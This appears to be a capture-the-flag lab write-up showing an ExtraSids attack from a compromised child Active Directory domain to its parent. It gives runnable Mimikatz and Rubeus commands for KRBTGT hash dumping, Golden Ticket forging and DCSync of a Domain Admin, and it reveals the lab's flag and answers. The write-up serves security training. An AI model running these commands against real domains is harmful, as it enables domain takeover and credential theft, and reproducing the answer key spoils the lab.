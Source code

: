 <div align='center'>

# **Lab 22: Attacking Domain Trusts - Child -> Parent Trusts - from Windows** 

</div>

Note: the attacker is on the LOGISTICS domain controller, which is a child domain of the INLANEFREIGHT domain. The attacker has already compromised the LOGISTICS domain controller

## **ExtraSids Attack - Mimikatz**

This attack allows for the compromise of a parent domain once the child domain has been compromised.

To perform this attack after compromising a child domain, we need the following:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.

**Obtaining the KRBTGT Account's NT Hash using Mimikatz**

```powershell
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

![](../imgs/Lab/Lab22/1.png)

We can see the NT hash for the KRBTGT account in the child domain and the SID of the child domain.

**Obtaining Enterprise Admins Group's SID using Get-DomainGroup**

```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

![](../imgs/Lab/Lab22/2.png)

We have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: L`OGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

**Question**: What is the SID of the child domain?
- **Answer:** S-1-5-21-2806153819-209893948-922872689

**Question**: What is the SID of the Enterprise Admins group in the root domain?
- **Answer:** S-1-5-21-3842939050-3880317879-2865463114-519

![](../imgs/Lab/Lab22/11.png)

**Confirm no access to the file system of the DC in the parent domain.**

![](../imgs/Lab/Lab22/3.png)

**Creating a Golden Ticket with Mimikatz**

```powershell
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

![](../imgs/Lab/Lab22/4.png)

![](../imgs/Lab/Lab22/5.png)

The attack was successful

![](../imgs/Lab/Lab22/6.png)

## **ExtraSids Attack - Rubeus**

**Confirm no access to the file system of the DC in the parent domain.**

![](../imgs/Lab/Lab22/3.png)

**Question**: Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain

```powershell
cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```

![](../imgs/Lab/Lab22/12.png)

- **Answer:** f@ll1ng_l1k3_d0m1no3$

![](../imgs/Lab/Lab22/13.png)

**Creating a Golden Ticket using Rubeus**

```powershell
Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

![](../imgs/Lab/Lab22/7.png)

![](../imgs/Lab/Lab22/8.png)

![](../imgs/Lab/Lab22/9.png)

**Performing a DCSync attack against the parent domain, targeting the lab_adm Domain Admin user**

```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

![](../imgs/Lab/Lab22/10.png)

We successfully dumped the hash for the Domain Admin user in the parent domain.